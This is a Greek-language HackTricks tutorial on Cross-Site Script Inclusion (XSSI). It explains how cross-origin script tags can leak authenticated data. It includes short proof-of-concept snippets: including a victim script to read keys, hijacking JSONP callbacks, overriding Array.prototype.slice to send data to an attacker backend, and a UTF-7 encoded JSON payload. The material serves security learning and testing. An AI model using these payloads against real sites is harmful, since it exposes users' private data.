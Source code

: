 # XSSI (Ενσωμάτωση Σεναρίου Από Άλλο Σάιτ)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>


## Βασικές Πληροφορίες

Η **Ενσωμάτωση Σεναρίου Από Άλλο Σάιτ (XSSI)** είναι μια ευπάθεια που προκύπτει από τη φύση της ετικέτας `script` στο HTML. Αντίθετα από τους περισσότερους πόρους, οι οποίοι υπόκεινται στην **Πολιτική Ίδιας Προέλευσης (SOP)**, τα σενάρια μπορούν να ενσωματωθούν από διάφορους τομείς. Αυτή η συμπεριφορά έχει σκοπό να διευκολύνει τη χρήση βιβλιοθηκών και άλλων πόρων που φιλοξενούνται σε διάφορους διακομιστές, αλλά εισάγει επίσης ένα δυνητικό κίνδυνο ασφάλειας.

### Κύρια Χαρακτηριστικά του **XSSI**:
- **Παράκαμψη της SOP**: Τα σενάρια εξαιρούνται από την **Πολιτική Ίδιας Προέλευσης**, επιτρέποντας την ενσωμάτωσή τους από διάφορους τομείς.
- **Αποκάλυψη Δεδομένων**: Ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτήν τη συμπεριφορά για να διαβάσει δεδομένα που φορτώνονται μέσω της ετικέτας `script`.
- **Επίδραση στο Δυναμικό JavaScript/JSONP**: Το **XSSI** είναι ιδιαίτερα σημαντικό για το δυναμικό JavaScript ή το **JSON με Περιτύλιγμα (JSONP)**. Αυτές οι τεχνολογίες συχνά χρησιμοποιούν πληροφορίες "περιβάλλοντος αρχείου" (όπως τα cookies) για την πιστοποίηση. Όταν γίνεται αίτηση για ένα σενάριο σε έναν διαφορετικό διακομιστή, αυτές οι πιστοποιήσεις (π.χ. τα cookies) περιλαμβάνονται αυτόματα στην αίτηση.
- **Διαρροή Διαπιστευτήριων Ταυτότητας**: Αν ένας επιτιθέμενος μπορεί να εξαπατήσει τον περιηγητή ενός χρήστη να ζητήσει ένα σενάριο από έναν διακομιστή που ελέγχει, μπορεί να έχει πρόσβαση σε ευαίσθητες πληροφορίες που περιέχονται σε αυτές τις αιτήσεις.

### Τύποι

1. **Στατικό JavaScript** - Αντιπροσωπεύει τη συμβατική μορφή του XSSI.
2. **Στατικό JavaScript με Πιστοποίηση** - Αυτός ο τύπος είναι διαφορετικός επειδή απαιτεί πιστοποίηση για να αποκτηθεί πρόσβαση.
3. **Δυναμικό JavaScript** - Περιλαμβάνει JavaScript που δημιουργεί δυναμικά περιεχόμενο.
4. **Μη-JavaScript** - Αναφέρεται σε ευπάθειες που δεν σχετίζονται άμεσα με το JavaScript.

**Οι παρακάτω πληροφορίες είναι ένα σύνολο του [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Ελέγξτε το για περαιτέρω λεπτομέρειες.


### Κανονικό XSSI
Σε αυτήν την προσέγγιση, ιδιωτικές πληροφορίες ενσωματώνονται σε ένα αρχείο JavaScript που είναι παγκοσμίως προσβάσιμο. Οι επιτιθέμενοι μπορούν να εντοπίσουν αυτά τα αρχεία χρησιμοποιώντας μεθόδους όπως η ανάγνωση αρχείων, οι αναζητήσεις λέξεων-κλειδιών ή οι κανονικές εκφράσεις. Αφού εντοπιστεί, το σενάριο που περιέχει τις ιδιωτικές πληροφορίες μπορεί να ενσωματωθεί σε κακόβουλο περιεχόμενο, επιτρέποντας την μη εξουσιοδοτημένη πρόσβαση σε ευαίσθητα δεδομένα. Παρακάτω παρουσιάζεται ένα παράδειγμα τεχνικής εκμετάλλευσης:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Δυναμική-Βασισμένη-σε-JavaScript-XSSI και Εξουσιοδοτημένη-Βασισμένη-σε-JavaScript-XSSI
Αυτοί οι τύποι επιθέσεων XSSI περιλαμβάνουν τη δυναμική προσθήκη εμπιστευτικών πληροφοριών στο σενάριο απόκρισης σε αίτημα ενός χρήστη. Η ανίχνευση μπορεί να πραγματοποιηθεί αποστέλλοντας αιτήσεις με και χωρίς cookies και συγκρίνοντας τις αποκρίσεις. Εάν οι πληροφορίες διαφέρουν, μπορεί να υποδηλώνει την παρουσία εμπιστευτικών πληροφοριών. Αυτή η διαδικασία μπορεί να αυτοματοποιηθεί χρησιμοποιώντας εργαλεία όπως η επέκταση Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Εάν εμπιστευτικά δεδομένα αποθηκεύονται σε μια παγκόσμια μεταβλητή, μπορούν να εκμεταλλευτούν χρησιμοποιώντας παρόμοιες μεθόδους με αυτές που χρησιμοποιούνται στον Κανονικό XSSI. Ωστόσο, εάν τα εμπιστευτικά δεδομένα περιλαμβάνονται σε μια απόκριση JSONP, οι επιτιθέμενοι μπορούν να αποκτήσουν τον έλεγχο της συνάρτησης κλήσης για να ανακτήσουν τις πληροφορίες. Αυτό μπορεί να γίνει είτε με την παραπλάνηση παγκόσμιων αντικειμένων είτε με τη δημιουργία μιας συνάρτησης που θα εκτελείται από την απόκριση JSONP, όπως φαίνεται παρακάτω:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Για μεταβλητές που δεν βρίσκονται στον παγκόσμιο χώρο ονομάτων, η *παραβίαση του προτύπου* μπορεί να εκμεταλλευτεί μερικές φορές. Αυτή η τεχνική εκμεταλλεύεται τον σχεδιασμό της JavaScript, όπου η ερμηνεία του κώδικα περιλαμβάνει τη διάσχιση της αλυσίδας προτύπων για να εντοπίσει την κληθείσα ιδιότητα. Αν αντικατασταθούν ορισμένες συναρτήσεις, όπως η `slice` του `Array`, οι επιτιθέμενοι μπορούν να έχουν πρόσβαση και να διαρρεύσουν μη παγκόσμιες μεταβλητές:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Περαιτέρω λεπτομέρειες για τα διανύσματα επίθεσης μπορούν να βρεθούν στο έργο του Ερευνητή Ασφάλειας [Sebastian Lekies](https://twitter.com/slekies), ο οποίος διατηρεί μια λίστα με [διανύσματα](http://sebastian-lekies.de/leak/).

### Μη-Σεναριογραφημένο XSSI
Η έρευνα του Takeshi Terada παρουσιάζει μια άλλη μορφή XSSI, όπου μη-σεναριογραφημένα αρχεία, όπως τα CSV, διαρρέουν από άλλη προέλευση ενσωματώνοντας τα ως πηγές σε ένα ετικέτα `script`. Ιστορικές περιπτώσεις XSSI, όπως η επίθεση του Jeremiah Grossman το 2006 για την ανάγνωση ενός ολοκληρωμένου βιβλίου διευθύνσεων της Google και η διαρροή δεδομένων JSON του Joe Walker το 2007, αναδεικνύουν τη σοβαρότητα αυτών των απειλών. Επιπλέον, ο Gareth Heyes περιγράφει μια παραλλαγή επίθεσης που εμπλέκει τον κωδικοποιημένο με UTF-7 JSON για να δραπετεύσει από τη μορφή JSON και να εκτελέσει σενάρια, αποτελεσματική σε ορισμένους περιηγητές:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
